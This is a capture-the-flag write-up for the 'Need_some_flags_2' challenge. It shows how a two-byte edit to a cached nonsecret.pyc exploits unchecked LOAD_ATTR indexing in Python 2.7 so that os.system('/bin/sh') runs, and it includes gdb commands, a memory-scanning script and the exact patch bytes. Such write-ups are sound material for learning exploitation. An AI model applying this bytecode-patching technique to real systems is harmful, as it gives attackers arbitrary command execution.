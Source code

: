 ## Misc - Need_some_flags_2

We are given a Python console application exposed via xinetd. It allows us to
do four things:

* Option `0` (`writeflag`): three times only, write up to 0x30 characters into
`flag` global variable as well as into a file with a random name.
* Option `1` (`editflag`): one time only, write 2 bytes into any file in the
application directory (excluding `.py` files) at any offset.
* Option `2` (`pushflag`): no-op, commented out.
* Option `3` (`secretflag`): reload the `nonsecret` module and pass an arbitrary
string to the `printlist` function inside it.

`nonsecret.py` is trivial:

```
import os
def printlist(path):
  print os.listdir(path)
```

Which files can we edit with `editflag`? `.py` ones are locked down, random flag
files are useless, and we cannot reference files outside of the current
directory. Initial import of the `nonsecret` module results in generation of
`nonsecret.pyc`, and `secretflag` reloads it - so we can edit `nonsecret.pyc`.
`.pyc` files with a fresher timestamp take precedence over older `.py` files - a
source of constant frustration in daily life.

Let's disassemble the `nonsecret.pyc` with [python-xdis](
https://github.com/rocky/python-xdis):

```
$ pydisasm --show-bytes nonsecret.pyc
```
```
# Method Name:       <module>
```
```
# Constants:
#    0: -1
#    1: None
#    2: <xdis.code.Code2 object at 0x7fc9e252deb8>
# Names:
#    0: os
#    1: printlist
  1:           0 |64 00 00| LOAD_CONST           (-1)
               3 |64 00 01| LOAD_CONST           (None)
               6 |6c 00 00| IMPORT_NAME          (os)
               9 |5a 00 00| STORE_NAME           (os)

  2:          12 |64 00 02| LOAD_CONST           (<xdis.code.Code2 object at 0x7fc9e252deb8>)
              15 |84 00 00| MAKE_FUNCTION             0
              18 |5a 00 01| STORE_NAME           (printlist)
              21 |64 00 01| LOAD_CONST           (None)
              24 |53      | RETURN_VALUE
```
```
# Method Name:       printlist
```
```
# Constants:
#    0: None
# Names:
#    0: os
#    1: listdir
# Varnames:
#	path
# Positional arguments:
#	path
  3:           0 |74 00 00| LOAD_GLOBAL          (os)
               3 |6a 00 01| LOAD_ATTR            (listdir)
               6 |7c 00 00| LOAD_FAST            (path)
               9 |83 00 01| CALL_FUNCTION        (1 positional, 0 named)
              12 |47      | PRINT_ITEM
              13 |48      | PRINT_NEWLINE
              14 |64 00 00| LOAD_CONST           (None)
              17 |53      | RETURN_VALUE
```

First guess - replace two-letter `os` module name with something else, e.g.
`uu`. Unfortunately, there is no such module with a useful `listdir` function.
Similarly, there doesn't seem to be a way to replace two consecutive letters in
`listdir` function name to get a name of a useful function.

Second guess - patch the argument of `LOAD_ATTR` so that it ends up pointing to
`system` instead of `listdir`. Inspecting [python2.7.15](
https://github.com/python/cpython/tree/v2.7.15) code shows that [`LOAD_ATTR`](
https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L2551) does
[`GETITEM`](https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L833),
which does no bounds checking in release builds. The `LOAD_ATTR` argument is
[unsigned](https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L883).
So if we manage to find a `PyObject *` pointing to `system` string within
`0x10000 * 8` bytes from [`names` tuple](
https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L1021), then we
are good.

We could increase the chances of it appearing by passing `system` to
`writeflag` (option `0`), since the pointer will be saved in a global variable,
which will not be overwritten or garbage collected.

How to find the offset? Let's use gdb and catch the moment when the code calls
`LOAD_ATTR` inside `printlist`. First, let's add a few things to the
`Dockerfile` to enable debugging:

```
RUN sed -i -e 's/^# deb-src /deb-src /g' /etc/apt/sources.list
RUN apt-get update
RUN apt-get install dpkg-dev gdb python2.7-dbg -y
RUN cd /usr/src && apt-get source python2.7
```

Then rebuild the image and run it with `--privileged` flag to enable debugging
(this is actually an overkill but who cares):

```
$ docker build -t need_some_flags_2 .
$ docker run -it --rm -p 4869:4869 --privileged --name need_some_flags_2 need_some_flags_2
$ docker exec -it need_some_flags_2 bash
# cd /usr/src/python2.7-2.7.15/Python
# gdb -p $(pidof python2.7)
```

We can catch execution of any code in `nonsecret` module using the following
conditional breakpoint:

```
(gdb) b PyEval_EvalFrameEx if (strcmp(PyDict_GetItemString(f->f_globals, "__name__")->ob_type->tp_name, "str") == 0) && (strcmp(PyString_AsString(PyDict_GetItemString(f->f_globals, "__name__"), 0), "nonsecret") == 0)
```

Here we abuse invoking functions in the gdb inferior. We take a frame object and
ask for a `__name__` item of its globals dict. Sometimes it may be `None`, so we
first check if it's a `str`, if yes, then we compare its value with `nonsecret`.
This breakpoint fires only two times - for module initialization and for
`printlist`. So we can skip it the first time, and then single-step to
`LOAD_ATTR` case in the switch statement in the interpreter loop.

Unfortunately, debuginfo is not good enough and does not show the location of
`names`, so after reaching `TARGET(LOAD_ATTR)` we need to issue a few `si`
commands to position ourselves at `+1602`.

```
2551	        TARGET(LOAD_ATTR)
   0x000056508de6136d <+1565>:	lea    0x2(%r9),%rbp
   0x000056508de61371 <+1569>:	movzbl -0x1(%rbp),%eax
   0x000056508de61375 <+1573>:	movzbl -0x2(%rbp),%r14d
   0x000056508de61383 <+1587>:	mov    %r9,(%rsp)
   0x000056508de61387 <+1591>:	shl    $0x8,%eax
   0x000056508de6138d <+1597>:	add    %r14d,%eax

2552	        {
2553	            w = GETITEM(names, oparg);
   0x000056508de6137a <+1578>:	mov    0x30(%rsp),%r12
   0x000056508de61390 <+1600>:	cltq
   0x000056508de61392 <+1602>:	mov    0x18(%r12,%rax,8),%r14
```

At this point, `%rax` is index (`1` in non-patched version) and `%r12` is
`names`, `0x18` is python object header size, so `%r12 + 0x18` is the start of
the array. Let's scan the memory and find the indices:

```
(gdb) python
import struct
i = gdb.inferiors()[0]
names_arr = <<<output of p/x $r12 + 0x18>>>
PyString_Type = <<<output of p/x PyString_Type>>>
for pp in range(names_arr, names_arr + 0x10000 * 8, 8):
    p, = struct.unpack('<Q', i.read_memory(pp, 8))
    try:
        r, t, l = struct.unpack('<QQQ', i.read_memory(p, 24))
    except gdb.MemoryError:
        continue
    if t == PyString_Type:
        foo = gdb.execute('p (char*)PyString_AsString((PyObject*)' + hex(p) + ')', to_string=True).strip()
        if '"system"' in foo:
            print(hex(pp))
end
```

First we scan through all pointers in the reachable area. If the second quadword
they point to is address of `PyString_Type`, we assume this is a Python string.
Then we use gdb to ask the Python interpreter to give us its value, and if it's
`system`, then we print the address of the corresponding pointer. The last
manual step is to subtract `%r12 + 0x18` from each printed address (there are
normally 2 of them) and divide by 8 to get indices. Those two indices are stabl
across multiple runs.

So, the final sequence is:

* Option `0` (`writeflag`): `system`
* Option `1` (`editflag`): `nonsecret.pyc`, `A8ED` | `B013`, `92`
* Option `3` (`secretflag`): `/bin/sh`

and this gives us the shell to poke around and get the flag!
